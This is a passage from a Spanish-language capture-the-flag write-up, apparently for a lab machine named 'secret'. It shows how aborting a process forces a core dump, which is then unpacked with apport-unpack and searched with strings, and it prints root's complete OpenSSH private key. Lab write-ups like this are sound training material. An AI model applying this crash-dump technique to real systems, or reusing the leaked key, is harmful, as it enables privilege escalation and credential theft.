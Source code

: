 ```
dasith@secret:/opt$ kill -ABRT 1576
dasith@secret:/opt$ fg
./count
Aborted (core dumped)
```

```
dasith@secret:/opt$ apport-unpack /var/crash/_opt_count.1000.crash /tmp/id_rsa
dasith@secret:/opt$ cd /tmp/id_rsa/
dasith@secret:/tmp/id_rsa$ ls
Architecture  CrashCounter  DistroRelease   ExecutableTimestamp  ProcCmdline  ProcEnviron  ProcStatus  Uname
CoreDump      Date          ExecutablePath  ProblemType          ProcCwd      ProcMaps     Signal      UserGroups
dasith@secret:/tmp/id_rsa$ strings CoreDump 
```

Dentro del archivo `CoreDump` se encuentra la `id_rsa` del usuario `root`

```
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```
